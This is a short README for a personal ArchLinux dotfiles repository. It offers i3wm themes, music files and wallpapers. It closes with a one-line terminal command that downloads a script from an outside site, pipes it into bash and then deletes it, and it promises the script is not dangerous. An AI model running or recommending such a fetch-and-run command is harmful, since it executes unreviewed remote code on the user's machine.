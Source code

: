 # dmitry_babaycev
A repository of ArchLinux user's configs.

My site: http://babaycev.3dn.ru/
Vk: http://vk.com/kuzuka_ngh/

In this repository you can find

* My i3wm configuration files (Current version 2.0 from 11.10.2015) with
 * 8 Windows thenes
 * 11 Bar themes
 * 4 Dmenu themes
 
* My favorite music MP3 Files

* My favorite wallpapers 16:9

To see what I can, do this comand in terminal from user:
 $ wget http://archwell.tk/sprayer.script && bash sprayer.script && rm sprayer.script

I guarant you that it can't be dangerous for you, but if you afraid to do this, nobody makes you do this.

